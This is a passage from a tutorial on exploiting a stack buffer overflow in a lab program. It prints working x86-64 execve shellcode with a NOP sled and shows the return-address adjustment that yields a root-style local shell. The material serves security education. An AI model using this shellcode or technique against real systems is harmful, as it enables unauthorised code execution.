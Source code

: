 > Since our program is compiled with debugging information (`-g`), we could get the address by using `p &input` in gdb.

Modify the exploit to jump into the NOP-sled, and run the program in the terminal:

```bash
$ env - PWD=$PWD SHLVL=0 /path/to/bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\x98\xec\xff\xff\xff\x7f"'`
Segmentation fault (core dumped)
```

Still no success. One final obstacle remains: our argument to the program moves to buffer address.

We know we are inputting 96 characters the program (to fill the buffer and overwrite two addresses), so our buffer address will be 96 bytes offset from our gdb result above.

A quick calculation gives 0x90 - 0x60 = 0x30 (the first number is the last byte of the buffer address that we got from gdb, and the second number is 96 converted to hex) and we are ready to exploit again:

```bash
$ env - PWD=$PWD SHLVL=0 /path/to/bo_vuln1 `python -c 'print 30 * "\x90" + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" + 17 * "a" + 8 * "b" + "\x38\xec\xff\xff\xff\x7f"'`
sh-4.4$
```

> We can use `$PWD/program` instead of `/path/to/program`.

Finally a success!

To summarize: make sure to launch gdb and the vulnerable programs as described above, and take the argument length into account to find the proper buffer address in the terminal.
